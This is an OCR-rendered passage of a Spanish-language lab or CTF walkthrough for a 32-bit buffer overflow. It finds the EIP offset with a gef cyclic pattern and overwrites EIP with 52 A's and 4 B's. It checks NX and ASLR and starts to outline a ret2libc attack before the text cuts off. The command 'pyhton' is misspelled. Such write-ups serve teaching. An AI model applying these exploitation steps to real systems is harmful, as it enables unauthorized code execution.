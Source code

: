     gef> r aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

    gef> pattern offset $eip
    [+] Found at offset 52 (little-endian search) likely
    ```

    Aqui vemos que el offset es de 52 caracteres.

1. Comprobamos poniendole 52 A y 4 B

    ```bash
    gef> r $(pyhton -c 'print "A"*52 + "B"*4')
    ```

    Y vemos que el $eip vale ahora 0x42424242 que son 4 "B"

Como aqui sabemos que no podemos ejecutar comandos desde la pila porque el NX esta habilitado, la primera cosa que nos pasa por la cabeza seria
usar la technica 
```bash
 Ret2Libc 
```
. Lo que tenemos que ver para efectuar esta tecnica seria ver si hay que burlar el ASLR en caso de que haya aleatorisacion 
en las direcciones de la memoria.

Esto se controla desde la maquina victima.

1. miramos si la architectura de la maquina es 32 o 64 bits

    ```bash
    uname -a
    ```

    vemos que estamos en una maquina con architectura 32 bits

1. miramos si el ASLR esta habilitado

    ```bash
    cat /proc/sys/kernel/randomize_va_space

    #Output
    2
    ```

    Esta habilitado y lo podemos comprobar dandole multiples vecez al comando 
```bash
 ldd rop 
```
 y vemos que la libreria libc.so.6 cambia
    de direccion cada vez.

Ahora que tenemos esto en cuenta miramos como atacamos el BOF con un 
```bash
 Ret2Libc 
```
. La tecnica aqui seria que una vez tomado el control del $eip
redirigir el programa a la direccion del 
